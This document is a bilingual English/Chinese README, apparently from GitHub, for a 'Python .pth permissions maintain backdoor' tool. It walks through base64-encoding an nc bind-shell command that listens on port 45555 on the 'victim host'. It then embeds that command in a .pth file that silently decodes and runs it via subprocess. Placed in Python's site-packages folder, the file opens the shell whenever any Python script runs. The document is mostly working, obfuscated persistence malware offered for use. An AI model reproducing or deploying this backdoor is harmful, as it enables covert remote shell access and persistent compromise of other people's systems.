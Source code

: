 # Python .pth permissions maintain backdoor basic tool

# python .pth 权限维持后门基础工具



## How to use 如何使用

​	&nbsp;Here I use base64 encoding to obfuscate the nc rebound shell command.

​	&nbsp;这里我采用的是 base64 编码将 nc 反弹 shell 的命令进行混淆，

> echo 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -lvvp 45555 > /tmp/f' | base64 -w0

​	&nbsp;The 45555 above is the service port that needs to be opened on the victim host. Through the above command, we can obtain a base64-encoded nc rebound shell command content.

​	&nbsp;上面的 45555 是受害者主机需要开启的服务端口，通过上面的命令我们可以获取到一段经过 base64 编码的 nc 反弹 shell 命令的内容。

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/make_evil_pth.png)

> echo 'import subprocess;subprocess.Popen("echo \"cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWx2dnAgNDU1NTUgPiAvdG1wL2YK\"|base64 -d |bash", shell=True, start_new_session=True, stdout=open("/dev/null", "w"), stderr=open("/dev/null", "w"))' > 1.pth

​	&nbsp;"cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWx2dnAgNDU1NTUgPiAvdG1wL2YK" is the base64-encoded content obtained above. Embed it in the command. Through the above command, a 1.pth file will be obtained in the directory where the shell is executed.	

​	&nbsp;"cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWx2dnAgNDU1NTUgPiAvdG1wL2YK"是上面获取到的经过 base64 编码的内容，将他嵌入到命令中，通过上面的命令会在 shell 执行的目录下获取到一个 1.pth 文件。

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/mv_pth2python_site_package_path.png)

​	&nbsp;Move the 1.pth file generated above to the python package management folder, and then just execute the python script at will to trigger the corresponding command execution (here the open port is used to execute the shell)

​	&nbsp;将上面生成的1.pth文件移动到python的包管理文件夹下，然后只要随意执行python脚本，就能够触发相应的命令执行（这里实现的是开放端口用于执行shell）

![make_evil_pth](https://github.com/thedarknessdied/.pth_study/blob/main/screen_shot/get_shell.png)

​	&nbsp;You can also generate a simple evil.pth file by executing the above python script, move this file to the python package management folder and execute the python script at will

​	&nbsp;你也可以通过执行上面的 python 脚本，从而生成一个简单的evil.pth文件，将这个文件移动到python的包管理文件夹下随意执行python脚本即可

